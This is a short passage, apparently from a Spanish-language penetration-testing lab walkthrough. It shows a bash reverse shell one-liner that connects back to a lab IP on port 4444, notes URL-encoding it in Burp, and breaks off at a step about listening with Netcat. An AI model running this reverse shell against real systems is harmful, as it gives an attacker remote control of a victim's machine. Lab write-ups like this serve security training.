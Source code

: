 ![](../img/c6c611b2b80676060e770580f9c4437c.png)

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.159/4444 0>&1'
```

La cadena se **URL-encodea** (Control+U) en el Inspector de Burp para evitar errores de parsing.

![](../img/46bdc8e7232da72146da0be318e9955b.png)


#### 4. ⏳ Escucha con Netcat
